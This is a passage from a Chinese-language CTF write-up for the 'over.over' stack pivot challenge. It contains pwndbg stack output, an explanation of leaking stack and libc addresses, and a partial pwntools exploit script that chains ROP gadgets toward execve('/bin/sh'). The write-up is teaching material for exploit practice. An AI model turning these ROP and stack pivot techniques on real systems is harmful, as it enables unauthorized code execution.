 ```C
   0x4006d6    mov    ecx, 0
   0x4006db    mov    edx, 2
─────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
───────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────
 ► f 0           4006b9
   f 1           400715
   f 2     7ff756de02b1 __libc_start_main+241
Breakpoint *0x4006B9
pwndbg> stack 15
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
0a:0050│ rbp              0x7ffceaf111b0 —▸ 0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
0b:0058│                  0x7ffceaf111b8 —▸ 0x400715 ◂— test   eax, eax
0c:0060│                  0x7ffceaf111c0 —▸ 0x7ffceaf112b8 —▸ 0x7ffceaf133db ◂— './over.over'
0d:0068│                  0x7ffceaf111c8 ◂— 0x100000000
0e:0070│                  0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
pwndbg> distance 0x7ffceaf111d0 0x7ffceaf11160
0x7ffceaf111d0->0x7ffceaf11160 is -0x70 bytes (-0xe words)
```

leak 出栈地址后, 我们就可以通过控制 rbp 为栈上的地址(如 0x7ffceaf11160), ret addr 为 leave ret 的地址来实现控制程序流程了。 

比如我们可以在 0x7ffceaf11160 + 0x8 填上 leak libc 的 rop chain 并控制其返回到 `sub_400676` 函数来 leak libc。 
​	 
然后在下一次利用时就可以通过 rop 执行 `system("/bin/sh")` 或 `execve("/bin/sh", 0, 0)` 来 get shell 了, 这道题目因为输入的长度足够, 我们可以布置调用 `execve("/bin/sh", 0, 0)` 的利用链, 这种方法更稳妥(`system("/bin/sh")` 可能会因为 env 被破坏而失效), 不过由于利用过程中栈的结构会发生变化, 所以一些关键的偏移还需要通过调试来确定

#### exp
```python
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


#  DEBUG("b *0x4006B9\nc")
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279


```